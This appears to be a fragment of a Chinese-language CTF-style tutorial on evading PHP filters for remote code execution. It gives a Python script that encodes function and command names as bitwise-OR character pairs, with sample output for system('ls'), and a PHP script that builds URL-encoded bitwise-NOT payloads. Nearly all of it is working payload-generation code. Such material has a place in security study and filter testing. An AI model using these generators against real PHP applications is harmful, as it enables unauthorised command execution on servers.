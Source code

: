 ```php
```

```python
# 构造 payload
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("or_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)
```

```sh
# 运行结果
[+] your function：system
[+] your command：ls
("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%0c%13"|"%60%60");
```

### 取反绕过

```php
<?php
//在命令行中运行

/*author yu22x*/

fwrite(STDOUT, '[+]your function: ');

$system = str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

fwrite(STDOUT, '[+]your command: ');

$command = str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

echo '[*] (~' . urlencode(~$system) . ')(~' . urlencode(~$command) . ');';
```
